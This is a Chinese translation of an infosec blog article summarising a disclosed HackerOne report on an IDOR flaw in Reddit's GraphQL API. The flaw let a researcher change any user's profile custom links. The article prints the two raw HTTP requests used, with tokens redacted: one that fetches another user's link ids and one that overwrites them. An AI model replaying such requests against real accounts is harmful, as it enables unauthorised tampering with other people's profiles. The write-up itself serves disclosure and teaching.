 # 这些 IDOR 漏洞如何获得 5000 美元| Hackerone Reddit Bug 赏金

> 原文：<https://infosecwriteups.com/how-these-idor-vulnerability-earned-5000-hackerone-reddit-bug-bounty-c685fcfbd8bc?source=collection_archive---------3----------------------->

## 修改任何用户自定义简档链接

![](img/ad3346443016dd87e7ea6024f2cd92ab.png)

由[布雷特·乔丹](https://www.pexels.com/@brettjordan/)在[像素](https://www.pexels.com/photo/red-white-and-black-labeled-box-5437588/)上拍摄的照片

IDOR，不安全的直接对象引用是一个广泛但潜在的严重漏洞。当应用程序没有正确验证用户输入时，就会出现这种类型的漏洞。攻击者可以利用此漏洞访问未经授权的资源或执行未经授权的操作。

在这篇文章中，我将解释一份由用户报告的关于 HackerOne 的公开报告`criptex`。这份报告可以在[这里](https://hackerone.com/reports/1661113)找到

# 特征

reddit 用户可以向他们的 Reddit 个人资料添加自定义链接或社交媒体个人资料链接，并重定向其他用户。

# 利用

配置文件上的自定义链接可能会被以下易受攻击的请求更改。

```
POST / HTTP/2
Host: gql.reddit.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20000101 Firefox/101.0
Accept: */*
Accept-Language: es-AR,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 173
X-Reddit-Loid: * * * * * * * * *  * * * * *  * * * * * * * * * *  * * * * *  *
X-Reddit-Session: * * * * * * * * *  * * * * *  * * * * * * * * * *  * * * * *  *
X-Reddit-Compression: 1
Origin: https://www.reddit.com
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
Authorization: Bearer * * * * * * * * *  * * * * *  * * * * * * * * * *  * * * * *  *
Referer: https://www.reddit.com/
Te: trailers

{"id":"c558e604581f","variables":{"input":{"socialLinks":[{"outboundUrl":"https://www.hackerone.com","title":"hacker","type":"CUSTOM","id":"* * * * * * * * *  * * * * *  * * * * * * * * * *  * * * * *  *"}]}}}
```

他可以通过更改请求中的后一个 id 参数来更改任何 reddit 用户的个人资料链接。他使用下面的请求来获取其他用户配置文件上的自定义链接 id。

```
POST / HTTP/2
Host: gql.reddit.com
Content-Length: 62
Sec-Ch-Ua: ".Not/A)Brand";v="99", "Google Chrome";v="103", "Chromium";v="103"
X-Reddit-Loid:  * * ** * * * * * * * * * * ** * *  * * * * * * * * *  * * * * *  *
Sec-Ch-Ua-Mobile: ?0
Authorization: Bearer * * * * * * *  * * * * * * * * * * * * * * * * * * * * * * * * *  * * * * *  *
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/531.36
X-Reddit-Compression: 1
X-Reddit-Session:  * * * * * * * * *  * * * * *  * * * * * * * * * *  * * * * *  *
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Origin: https://www.reddit.com
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://www.reddit.com/
Accept-Encoding: gzip, deflate
Accept-Language: es-ES,es;q=0.9,en-US;q=0.8,en;q=0.7,bs;q=0.6,ja;q=0.5

{"id":"11a239b07f86","variables":{"username":"*********"}}
```

# 结论

由于这可能会对 Reddit 用户的形象造成一些负面影响，黑客`criptex`获得了应得的 5000 美元奖金。

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！